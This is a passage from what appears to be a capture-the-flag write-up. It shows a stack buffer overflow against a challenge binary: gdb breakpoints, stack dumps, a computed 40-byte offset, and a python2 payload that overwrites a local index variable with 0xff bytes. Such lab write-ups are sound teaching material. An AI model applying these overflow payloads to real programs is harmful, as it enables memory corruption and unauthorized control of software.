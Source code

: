 5. We set a breakpoint just before the comparison at `0x00000000004012a5`.

```sh
break *0x00000000004012a5
```

Then we run the program with a test input `AABBCCDD` and reach the breakpoint and take a look at all the registers and some stack.

```asm
AABBCCDD

Breakpoint 1, 0x00000000004012a5 in main ()
(gdb) x/wx $rbp-0x8
0x7fffffffe368:	0x00000001
(gdb) x/24wx $rbp
0x7fffffffe370:	0x00000000	0x00000000	0xf7e0fb25	0x00007fff
0x7fffffffe380:	0xffffe468	0x00007fff	0x00000064	0x00000001
0x7fffffffe390:	0x004011f6	0x00000000	0x00001000	0x00000000
0x7fffffffe3a0:	0x004012c0	0x00000000	0x55f78315	0x62ec878e
0x7fffffffe3b0:	0x00401110	0x00000000	0x00000000	0x00000000
0x7fffffffe3c0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x/24wx $rsp
0x7fffffffe340:	0x42424141	0x44444343	0x00401200	0x00000000
0x7fffffffe350:	0x00000000	0x00000000	0x00401110	0x00000000
0x7fffffffe360:	0xffffe460	0x00007fff	0x00000001	0x00000000
0x7fffffffe370:	0x00000000	0x00000000	0xf7e0fb25	0x00007fff
0x7fffffffe380:	0xffffe468	0x00007fff	0x00000064	0x00000001
0x7fffffffe390:	0x004011f6	0x00000000	0x00001000	0x00000000
```

We see that our user input is at `0x7fffffffe340` and the $rbp-0x8 is at `0x7fffffffe368`. Subtract the former from the later and we get `40`. So we need exactly `40` bytes of userinput to overflow the stack and reach the address where the value of `inspirational_message_index` is kept. We use python to provide the binary with 40 `A`s and recheck the stack.

```
0x7fffffffe340:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe350:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe360:	0x41414141	0x41414141	0x00000000	0x00000000
```

And indeed we have reached out target.

6. Now we just need to fill the next 8 bytes with hexadecimals `ff`s.
I chose to use python2 here because python3 has some weird print directly as binary problems which I still don't understand. I'm sure it can be done with python3 with very simple syntax change but I did in Python2 anyway. 

```sh
r <<< $(python2 -c "print(b'A'*40 + b'\xff'*8)")
...
0x7fffffffe340:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe350:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe360:	0x41414141	0x41414141	0xffffffff	0xffffffff
```
